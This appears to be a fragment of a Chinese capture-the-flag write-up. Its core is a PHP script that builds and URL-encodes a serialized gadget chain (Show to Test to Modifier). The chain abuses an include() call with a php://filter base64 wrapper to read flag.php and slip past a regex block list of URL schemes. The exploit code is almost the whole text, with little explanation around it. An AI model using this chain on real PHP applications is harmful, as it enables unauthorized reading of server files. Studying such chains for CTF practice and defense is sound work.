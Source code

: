 
payload

```php
<?php
class Modifier {
    protected  $var = "php://filter/convert.base64-encode/resource=flag.php";
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

$a = new Show();
$a->source = new Show();
$a->source->str = new Test();
$a->source->str->p = new Modifier();
echo urlencode(serialize($a));
```

整个流程

![](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240218163744126.png)
